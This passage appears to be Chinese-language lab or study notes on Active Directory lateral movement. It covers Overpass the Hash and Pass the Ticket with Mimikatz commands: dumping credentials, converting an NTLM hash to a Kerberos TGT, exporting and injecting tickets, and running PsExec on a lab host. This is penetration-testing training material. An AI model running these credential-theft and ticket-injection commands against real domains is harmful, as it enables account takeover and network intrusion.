 
这种方法适用于Active Directory域帐户和内置的本地管理员帐户。然而，由于2014年的安全更新，这种技术无法用于验证其他本地管理员帐户。

### Overpass the Hash
目标：通过Overpass the Hash获取完整的Kerbros TGT,使用TGT来获取TGS
就是将获取到的NTLM hash转换成Kerbros TGT


条件：
需要域用户的NTLM hash，

利用
```
###以wang的身份登陆到机器，再以jen的身份运行一个需要身份验证的进程
privilege::debug    
sekurlsa::logonpasswords        会获取到jen用户的NTLM hash


###在不通过网络进行NTLM身份认证的情况下获取TGT
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell

运行后会有一个新powershell会话，并且可以以jen的身份执行命令。但执行whoami结果会显示为wang。因为他只检查当前进程的令牌，不检查任何导入的Kerberos票据

###此时无票据

###获取票据, 此处的命令也可以使用任何需要域权限并随后创建TGS的命令。
net use \\files04\ipc$ /user:jen

klist

###将NTLM hash转换为了Kereros TGT，可以使用任何依赖于Kerberos身份验证（而不是NTLM）的工具,如psExec

###PsExec可以远程运行命令，但不接受密码哈希。由于我们已生成了Kerberos票据，并在PowerShell会话中以jen的身份操作，我们可以重用TGT以在files04主机上实现代码执行。
.\PsExec.exe \\files04 cmd

```

### Pass the Ticket
Pass the Ticket攻击利用了TGS，可以在网络上导出并重新注入，然后用于对特定服务进行身份验证。此外，如果服务票据属于当前用户，则不需要管理员权限。

利用
```
###导出内存中所有的TGT/TGS
privilege::debug
sekurlsa::tickets /export

###检查导出的ticket
dir *.kirbi
样例如下：
    -a---- 9/14/2022 6:24 AM 1561 [0;12bd0]-0-0-40810000-dave@cifs-
    web04.kirbi
    -a---- 9/14/2022 6:24 AM 1505 [0;12bd0]-2-0-40c10000-dave@krbtgt-
    CORP.COM.kirbi

###筛选攻击的服务的ticket
###注入票据
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

###检查
klist
```
